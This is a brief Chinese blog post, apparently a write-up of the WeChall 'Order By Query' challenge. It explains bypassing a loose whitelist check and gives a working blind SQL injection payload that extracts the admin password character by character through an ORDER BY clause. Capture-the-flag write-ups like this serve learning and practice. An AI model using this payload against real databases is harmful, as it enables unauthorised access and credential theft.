 ```yaml
---
title: Order By Query
author: rk700
layout: post
tags:
  - sql
  - wechall
---
```

[http://www.wechall.net/challenge/order\_by\_query/index.php][1]  
用户输入在`order by`后面出现，只能用盲注  
另外由于会检查参数`by`是否在白名单里，但用的是`==`，所以只要第一个字符是有效的数字即可

用二分法读内容  
<pre>
by=1,(case when (ascii(substring((select password from users where username=0x41646d696e),1,1))=51) then 3 else 1*(select apples from users)end)
</pre>

 [1]: http://www.wechall.net/challenge/order_by_query/index.php